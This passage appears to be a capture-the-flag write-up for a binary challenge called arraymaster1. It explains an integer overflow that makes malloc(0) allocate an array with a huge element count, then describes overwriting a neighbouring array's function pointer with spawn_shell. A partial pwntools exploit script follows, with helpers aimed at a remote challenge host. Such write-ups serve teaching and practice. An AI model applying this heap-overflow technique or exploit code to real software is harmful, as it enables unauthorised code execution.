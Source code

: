 ```assembly
```

`type` was already sanitized to be one of `{8, 16, 32, 64}`, but `num_elements` was not checked against an upper bound.

Therefore, if we provide `(0xFFFFFFFFFFFFFFFF+1)/8` as `num_elements` for a 64bit array, we are actually requesting an array of length:
```
64 / 8 * (0xFFFFFFFFFFFFFFFF+1)/8 = 8 * (0xFFFFFFFFFFFFFFFF+1)/8 = (0xFFFFFFFFFFFFFFFF+1) --overflow--> 0
```
Reminder: `malloc(0)` is implementation defined in C99:
> If the size of the space requested is zero, the behavior is implementation-defined: either a null pointer is returned, or the behavior is as if the size were some nonzero value, except that the returned pointer shall not be used to access an object.

Thus, the `num_elements` of this array would be very large, but the allocated length of the payload (a.k.a user data) would be 0 (the overall allocation would include some heap-related metadata). 

We can therefore allocate another array right after that, and use offsets from the first array to modify elements of the second array. Since we have a function called `spawn_shell` in our program, our natural move would be to override the address of the second's array getter or setter with `spawn_shell`.

Putting it all together:
```python
from pwn import *
import argparse


#context.log_level = "debug"
LOCAL_PATH = "./arraymaster1"

def get_process(is_remote = False):
    if is_remote:
        return remote("35.207.132.47", 22228)
    else:
        return process(LOCAL_PATH)

def read_menu(proc):
    proc.recvuntil("\n> ")

def print_list(proc):
    read_menu(proc)
    proc.sendline("list")
    return proc.recvuntil("\nEnter the command you want to execute.", drop = True)

def init(proc, arr_id, arr_type, arr_length):
    read_menu(proc)
    proc.sendline("init {} {} {}".format(arr_id, arr_type, arr_length))
    log.info("Initializing array '{}' (Type: int{}, Length: {})".format(arr_id, arr_type, arr_length))

def set_entry(proc, arr_id, arr_index, value):
    read_menu(proc)
    proc.sendline("set {} {} {}".format(arr_id, arr_index, value))
    log.info("Setting index #{} of array '{}' to value '{}' ({})".format(arr_index, arr_id, value, hex(value)))

def get_entry(proc, arr_id, arr_index):
    read_menu(proc)
    proc.sendline("get {} {}".format(arr_id, arr_index))
    out = int(proc.recvline(keepends = False))
    log.info("Index #{} of array '{}' has value '{}' ({})".format(arr_index, arr_id, out, hex(out)))
    return out
```